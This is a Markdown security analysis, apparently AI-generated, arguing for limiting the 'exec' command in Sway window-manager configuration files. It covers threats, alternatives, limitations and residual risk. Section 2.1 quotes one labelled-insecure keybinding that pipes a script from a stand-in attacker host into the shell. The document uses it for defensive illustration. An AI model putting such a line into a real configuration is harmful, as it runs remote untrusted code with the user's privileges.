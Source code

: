 Okay, here's a deep analysis of the "Minimize `exec` in Configuration" mitigation strategy for Sway, presented as Markdown:

# Deep Analysis: Minimize `exec` in Sway Configuration

## 1. Objective, Scope, and Methodology

### 1.1. Objective

The primary objective of this deep analysis is to thoroughly evaluate the effectiveness, limitations, and practical implications of minimizing the use of the `exec` command within Sway configuration files as a security mitigation strategy.  We aim to understand how this strategy reduces the attack surface and what residual risks remain.

### 1.2. Scope

This analysis focuses specifically on the `exec` command within Sway's configuration file (`~/.config/sway/config` or similar).  It considers:

*   The types of threats mitigated by reducing `exec` usage.
*   The practical alternatives to `exec` within Sway.
*   The limitations of this mitigation strategy.
*   Potential improvements or complementary strategies.
*   The impact on usability and functionality.
*   The attack vectors that are *not* addressed by this mitigation.

This analysis *does not* cover:

*   Security vulnerabilities within Sway itself (e.g., bugs in the compositor).
*   Security of applications *launched* by Sway (whether via `exec` or other means).
*   System-level security outside the scope of Sway's configuration.
*   Other configuration directives besides `exec`.

### 1.3. Methodology

The analysis will employ the following methods:

1.  **Threat Modeling:**  We will identify and categorize potential threats related to the use of `exec` in the configuration file.  This includes considering various attack vectors and attacker motivations.
2.  **Code Review (Conceptual):**  While we won't directly review Sway's source code for this specific analysis (as the mitigation is about *user* configuration, not Sway's internal handling of `exec`), we will conceptually analyze how `exec` is handled based on Sway's documentation and behavior.
3.  **Best Practices Analysis:** We will compare the mitigation strategy to established security best practices for configuration files and command execution.
4.  **Alternative Analysis:** We will evaluate the feasibility and security implications of the recommended alternatives to `exec`.
5.  **Residual Risk Assessment:** We will identify any remaining security risks even after implementing the mitigation strategy.
6.  **Practical Examples:** We will provide concrete examples of secure and insecure configuration snippets.

## 2. Deep Analysis of the Mitigation Strategy

### 2.1. Threat Modeling: `exec` and its Risks

The `exec` command in Sway's configuration allows arbitrary command execution.  This presents several significant security risks:

*   **Arbitrary Code Execution (ACE):**  If an attacker can modify the Sway configuration file (e.g., through a compromised user account, a supply chain attack on a configuration management tool, or a social engineering attack), they can insert malicious commands into `exec` directives.  These commands will be executed with the privileges of the user running Sway.  This is the most critical threat.
*   **Privilege Escalation:** While `exec` itself doesn't inherently escalate privileges, it can be *used* to exploit vulnerabilities in other applications or system components to gain higher privileges.  For example, an attacker might use `exec` to run a setuid program with crafted arguments to trigger a buffer overflow.
*   **Information Disclosure:**  Malicious `exec` commands could be used to exfiltrate sensitive data from the system (e.g., reading files, accessing environment variables, capturing keystrokes).
*   **Denial of Service (DoS):**  `exec` could be used to launch resource-intensive processes, potentially making the system unresponsive.
*   **Persistence:** An attacker could use `exec` to establish persistence on the system (e.g., by adding a cron job or modifying startup scripts).

**Example (Insecure):**

```
bindsym $mod+Shift+e exec curl http://attacker.com/malicious_script.sh | sh
```

This is highly insecure.  It downloads and executes a script from an untrusted source whenever the user presses Mod+Shift+E.

### 2.2. Alternatives to `exec`

The mitigation strategy correctly identifies several viable alternatives:

*   **Sway's Built-in Commands:** Sway provides a rich set of commands for window management, workspace manipulation, input device configuration, and more.  These are inherently safer than `exec` because they are parsed and executed within Sway's controlled environment.  Examples include `move`, `resize`, `workspace`, `focus`, `output`, `input`.

    **Example (Secure):**

    ```
    bindsym $mod+Left focus left
    bindsym $mod+1 workspace number 1
    ```

*   **`.desktop` Files:**  `.desktop` files are the standard way to define application launchers on Linux.  They provide a structured and (relatively) safer way to launch applications.  Sway can launch applications specified by `.desktop` files using the `exec` command, but it's generally better to use a dedicated launcher (see below) that handles `.desktop` file parsing.  The `.desktop` file itself should be treated as potentially untrusted, but the risk is lower than arbitrary command execution.

*   **Dedicated Launchers (rofi, dmenu, wofi):** These tools are designed for launching applications and are generally more secure than directly using `exec`.  They typically read `.desktop` files or provide a curated list of applications.  They also often have built-in security features (e.g., sandboxing in some cases).  Sway can be configured to use these launchers via keybindings.

    **Example (Secure):**

    ```
    bindsym $mod+d exec wofi --show drun
    ```

    This uses `wofi` to display a list of applications (from `.desktop` files) when Mod+D is pressed.  While `exec` is used here, it's limited to launching a trusted application (`wofi`) with a specific, safe argument.

### 2.3. Limitations of the Mitigation Strategy

*   **`exec` is Still Necessary:**  While minimizing `exec` is crucial, it's often *impossible* to eliminate it entirely.  Launching external applications (even through launchers) ultimately relies on `exec` at some level.  The goal is to restrict `exec` to trusted applications and well-defined arguments.
*   **Launcher Security:**  The security of the chosen launcher (rofi, dmenu, wofi) is paramount.  A vulnerability in the launcher could be exploited to achieve arbitrary code execution.
*   **`.desktop` File Tampering:**  If an attacker can modify `.desktop` files, they can still potentially execute malicious code, although the attack surface is reduced compared to direct `exec` usage.
*   **User Discipline:**  The effectiveness of this mitigation relies heavily on the user's diligence in avoiding unnecessary `exec` calls and carefully reviewing their configuration.  It's a *policy-based* mitigation, not a technical enforcement.
*   **Configuration Management Tools:** If a configuration management tool (e.g., Ansible, Puppet, Chef) is used to manage the Sway configuration, and that tool is compromised, the attacker could inject malicious `exec` commands.

### 2.4. Potential Improvements and Complementary Strategies

*   **Configuration Linting:**  A linter for Sway configuration files could be developed to warn users about potentially dangerous `exec` usage.  This could include:
    *   Detecting `exec` calls with external URLs.
    *   Warning about `exec` calls with shell metacharacters (e.g., `|`, `;`, `&`).
    *   Suggesting alternatives to common `exec` patterns.
*   **Sandboxing:**  While Sway itself doesn't provide sandboxing, it could potentially be integrated with sandboxing technologies like Flatpak or Bubblewrap.  This would limit the impact of any compromised application launched by Sway.
*   **AppArmor/SELinux:**  Mandatory Access Control (MAC) systems like AppArmor or SELinux can be used to restrict the capabilities of processes launched by Sway, even if `exec` is used maliciously.  This provides a system-wide layer of defense.
*   **Regular Security Audits:**  Users should regularly audit their Sway configuration (and the rest of their system) for any signs of compromise.
*   **Principle of Least Privilege:**  Ensure that the user running Sway has the minimum necessary privileges.  Avoid running Sway as root.

### 2.5. Impact on Usability and Functionality

Minimizing `exec` can have a slight impact on usability, as it may require users to learn Sway's built-in commands or configure launchers.  However, the security benefits significantly outweigh this minor inconvenience.  The functionality of Sway is not significantly impacted, as most common tasks can be accomplished without resorting to arbitrary command execution.

### 2.6. Residual Risk Assessment

Even with diligent minimization of `exec`, the following residual risks remain:

*   **Vulnerabilities in Sway:**  Bugs in Sway itself could be exploited, regardless of `exec` usage.
*   **Vulnerabilities in Launchers:**  A compromised launcher could lead to code execution.
*   **Compromised `.desktop` Files:**  Modified `.desktop` files could still lead to malicious code execution, albeit with a reduced attack surface.
*   **Sophisticated Attacks:**  Highly sophisticated attackers might find ways to bypass the mitigation, for example, by exploiting subtle timing issues or race conditions.
*   **Supply Chain Attacks:**  Compromised packages for Sway, launchers, or other system components could introduce vulnerabilities.

## 3. Conclusion

Minimizing the use of `exec` in Sway's configuration is a highly effective and essential security mitigation strategy.  It significantly reduces the risk of arbitrary code execution and privilege escalation.  While it doesn't eliminate all risks, it forms a crucial part of a defense-in-depth approach.  By combining this strategy with other security measures (sandboxing, MAC, regular audits, and the principle of least privilege), users can greatly enhance the security of their Sway environment.  The development of a configuration linter would further improve the practical implementation of this mitigation.